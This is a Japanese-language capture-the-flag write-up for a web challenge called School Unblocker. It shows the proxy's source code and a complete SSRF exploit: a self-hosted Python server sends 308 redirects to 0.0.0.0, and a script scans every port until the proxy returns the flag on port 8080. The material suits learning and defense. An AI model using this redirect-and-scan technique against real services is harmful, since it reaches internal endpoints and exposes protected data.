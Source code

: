 # School Unblocker:Web:130pts
Clam was just trying to browse kevinhiggs.com when his school wifi suddenly blocked it! So, he wrote [a proxy service](https://school-unblocker.web.actf.co/) so he can view his favorite website again! Can you get the flag hidden behind it?  

[Source](index.js)  

# Solution
サイトとソースが渡される。  
アクセスすると、プロキシサービスが動いているようだ。  
School Unblocker  
[site.png](site/site.png)  
ソースの主要部分は以下のようであった。  
```JavaScript
function isIpv4(str) {
    const chunks = str.split(".").map(x => parseInt(x, 10));
    return chunks.length === 4 && chunks.every(x => !isNaN(x) && x >= 0 && x < 256);
}

function isPublicIp(ip) {
    const chunks = ip.split(".").map(x => parseInt(x, 10));
    if ([127, 0, 10, 192].includes(chunks[0])) {
        return false;
    }
    if (chunks[0] == 172 && chunks[1] >= 16 && chunks[1] < 32) {
        return false;
    }
    return true;
}
~~~

app.get("/", (req, res) => {
    res.sendFile(path.join(__dirname, "index.html"));
});

app.post("/proxy", async (req, res) => {
    try {
        const url = new URL(req.body.url);
        const originalHost = url.host;
        if (!isIpv4(url.hostname)) {
            const ips = await resolve4(url.hostname);
            // no dns rebinding today >:)
            url.hostname = ips[0];
        }
        if (!isPublicIp(url.hostname)) {
            res.type("text/html").send("<p>private ip contents redacted</p>");
        } else {
            const abort = new AbortController();
            setTimeout(() => abort.abort(), 3000);
            const resp = await fetch(url.toString(), {
                method: "POST",
                body: "ping=pong",
                headers: {
                    Host: originalHost,
                    "Content-Type": "application/x-www-form-urlencoded"
                },
                signal: abort.signal,
            });
            res.type("text/html").send(await resp.text());
        }
    } catch (err) {
        res.status(400).type("text/plain").send("got error: " + err.message);
    }
});

// make flag accessible for local debugging purposes only
// also the nginx is at a private ip that isn't 127.0.0.1
// it's not that easy to get the flag :D
app.post("/flag", (req, res) => {
    if (!["127.0.0.1", "::ffff:127.0.0.1"].includes(req.socket.remoteAddress)) {
        res.status(400).type("text/plain").send("You don't get the flag!");
    } else {
        res.type("text/plain").send(flag);
    }
});
~~~
```
`/proxy`でfetchによりサイトを中継しているようだ。  
`/flag`にPOSTすればフラグが得られるが、`isIpv4`や`isPublicIp`が堅牢かつ、`new URL`で`http://0x7F000001`なども通常表記に直される。  
バイパスしてローカルのIPを指定するのは難しそうである。  
ここでfetchがリダイレクトをたどることを思い出す。  
つまり問題サーバのローカルにリダイレクトするグローバルIPを与えてやればよい。  
ここで問題になるのは、サービスが外部からのIPでのアクセスをブロックしており、内部のポートがわからないことだ。  
すべてのポートをスキャンする手法をとる。  
また、POSTである必要があるため、返すステータスコードに注意しGETに変わらないものを選ぶ。  
自前のサーバのグローバルIPを`192.0.2.0`、ポートを`4444`として、構成は以下のようになる。  
```
+------------------+                  +----------------+
|                  | -----fetch-----> | 192.0.2.0:4444 |
| School Unblocker |  <-----308-----  +----------------+       +---------------+
|                  | ------------------POST------------------> | 0.0.0.0:????? |
+------------------+ <------------------flag------------------ +---------------+
```
まずは自前のサーバ側のリダイレクトを以下のproxy.pyで行う。  
```python
import http.server

class handler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        self.send_response(308)
        self.send_header("Location", f"http://0.0.0.0:{self.path[1:]}/flag")
        self.end_headers()

with http.server.HTTPServer(("", 4444), handler) as server:
    server.serve_forever()
```
アクセスされたパスを`0.0.0.0`のポートにしてリダイレクトしている。  
ちなみに308はGETに変更されないことが保証されている。  
このプログラムを自前のサーバで起動しておく。  
次にローカルからSchool UnblockerにfetchさせるためのPOSTをするプログラムを以下のaccess.pyのように記述する。  
```python
import requests

url = "https://school-unblocker.web.actf.co/proxy"

port = 65535

while True:
    try:
        res = requests.post(url, data={"url": f"http://192.0.2.0:4444/{port}"}) # redirect server
        text = res.text
        with open("log.txt", "a") as file:
            file.write(f"[{port}]\n{text}\n")
            file.flush()
        if port < 0:
            break
    except :
        with open("log.txt", "a") as file:
            file.write(f"[{port}]\n-----ERROR-----\n")
            file.flush()
    finally:
        port -= 1
```
実行するとスキャンしたポートとその情報が`log.txt`に吐き出される。  
```bash
$ python access.py
$ grep -3 "actf" log.txt
[8081]
got error: request to http://0.0.0.0:8081/flag failed, reason: connect ECONNREFUSED 0.0.0.0:8081
[8080]
actf{dont_authenticate_via_ip_please}
[8079]
got error: request to http://0.0.0.0:8079/flag failed, reason: connect ECONNREFUSED 0.0.0.0:8079
[8078]
```
8080番ポートでflagが得られた。  

## actf{dont_authenticate_via_ip_please}